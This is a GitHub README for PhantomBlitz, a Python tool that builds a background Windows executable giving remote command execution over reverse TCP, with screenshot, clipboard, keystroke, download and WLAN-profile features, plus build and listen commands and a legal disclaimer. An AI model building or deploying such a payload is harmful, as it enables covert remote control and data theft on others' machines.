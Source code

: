  # PhantomBlitz

**PhantomBlitz is a Python-based framework that creates an executable file with various parameters. It allows users to perform a reverse TCP connection and execute cmd commands.**
## Features

- [x] Reverse TCP connection
- [x] Execute cmd commands
- [x] Collect OS info
- [x] Set clipboard text
- [x] Get clipboard text
- [x] Take screenshot
- [x] Start file server
- [x] Analyze LAN traffic
- [x] Type text
- [x] Download URL
- [x] Open link
- [x] Generate WLAN profile
## Requirements
> Same platform as the client
## Usage

PhantomBlazer can be executed with the following parameters:
``` 
    --mode/-m: Mode: accepts > build or listen
    --lhost/-lh: The local host IP address
    --lport/-lp: The local port number
    --output/-o: The output file name
```
> Example: ``` python3 phantomblazer.py -m build --lh <ip.address> --lp <port> --output<application.name>.exe```
> Before payload execution on client: ``` python3 phantomblazer.py -m listen --lh <ip.address> -lp <port> ```

### Inbuilt ommands can be executed using the following syntax:
```
    collect-os-info
    set clipboard <text>
    get clipboard
    take screenshot
    start file server
    analyze lan traffic
    type <text>
    download <url>
    open link <link>
    generate wlan profile *
    generate wlan profile <name>
```
## DISCLAIMER:
This tool is intended for legal and ethical use only. The creator of this tool is not responsible for any illegal or unethical use of this tool.

The tool creates a .exe file which runs as a background and creates a reverse TCP connection, allowing for remote command execution. This tool is intended for debugging purposes and should not be used to gain unauthorized access to systems.

Please use this tool at your own risk and with the appropriate permissions from the system owners. Any actions taken with this tool are the sole responsibility of the user.

By using this tool, you agree to the <a href = "https://github.com/devsdenepal/PhantomBlitz/blob/main/terms-and-conditions.md">```terms and conditions```</a> outlined above and acknowledge that any misuse of this tool is strictly prohibited.

